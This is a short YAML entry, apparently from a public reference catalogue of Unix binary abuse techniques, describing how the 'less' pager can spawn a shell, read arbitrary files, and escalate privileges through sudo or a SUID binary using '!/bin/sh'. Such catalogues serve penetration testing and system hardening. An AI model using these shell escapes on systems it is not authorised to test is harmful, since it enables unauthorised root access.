 ```yaml
---
functions:
  execute-interactive:
  - code: |
      less /etc/profile
      !/bin/sh
  - code: |
      VISUAL="/bin/sh -c '/bin/sh'" less /etc/profile
      v
  file-read:
  - code: 'less file_to_read

'
  sudo-enabled:
  - code: |
      sudo less /etc/profile
      !/bin/sh
  suid-limited:
  - code: |
      ./less /etc/profile
      !/bin/sh
---
```

